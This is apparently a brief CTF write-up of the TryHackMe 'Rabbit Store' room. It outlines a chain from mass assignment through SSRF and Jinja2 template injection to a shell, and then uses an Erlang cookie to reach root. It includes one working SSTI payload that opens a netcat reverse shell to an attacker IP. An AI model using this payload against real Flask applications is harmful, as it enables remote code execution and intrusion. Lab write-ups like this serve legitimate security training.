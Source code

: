 
2025-04-03 14:44

Source: #Boot2root 
# TL;DR

**Rabbit Store** started with exploiting a **mass assignment vulnerability** to register an activated account, granting access to an API endpoint vulnerable to **SSRF**. Leveraging this **SSRF** vulnerability, we accessed the **API** documentation and discovered another endpoint vulnerable to **SSTI**, which we exploited to achieve **RCE** and gain a shell.

After obtaining a shell, we retrieved the **Erlang cookie**, which allowed us to enumerate the **RabbitMQ** instance and discover the password for the **root** user
# Real deal 

### Enum 

There are four open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **4369** (`EPMD`)
- **25672** (`Erlang Distribution`)

On port 80 we are greeted w a login page 

 


Jinja [[Server-side template injection (SSTI)]] 
```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.62.140 1234 >/tmp/f').read() }}"}

```





### References
[TryHackMe | Rabbit Store](https://tryhackme.com/room/rabbitstore)

[Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
[Rabbit Store | THM Writeup :: CyberJagadeesh - Learn Cyber Security](https://cyberjagadeesh.github.io/posts/thm/rabbitstore/writeup/)
[Reverse Shelling via Jinja2 SSTI using ngrok | by V!hanga D | Medium](https://medium.com/@dvihanga32/reverse-shell-via-jinja2-ssti-using-ngrok-514f6641b2ee)
https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/
https://jaxafed.github.io/posts/tryhackme-rabbit_store/#shell-as-root